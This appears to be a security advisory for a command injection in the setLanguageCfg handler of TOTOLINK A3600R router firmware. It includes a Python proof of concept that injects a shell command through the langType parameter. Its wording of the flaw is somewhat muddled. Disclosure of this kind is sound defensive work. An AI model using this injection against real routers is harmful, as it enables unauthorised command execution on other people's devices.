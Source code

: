 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a command injection vulnerability in the `setLanguageCfg` function. The `v6` variable receives the `langType` parameter from a POST request. However, since the user can control the input of `langType`, the statement `CsteSystem` can cause a buffer overflow injection vulnerability.

![image-20240720235935465](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240720235935465.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setLanguageCfg",
"langType":";ls -al ../ ;",
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)

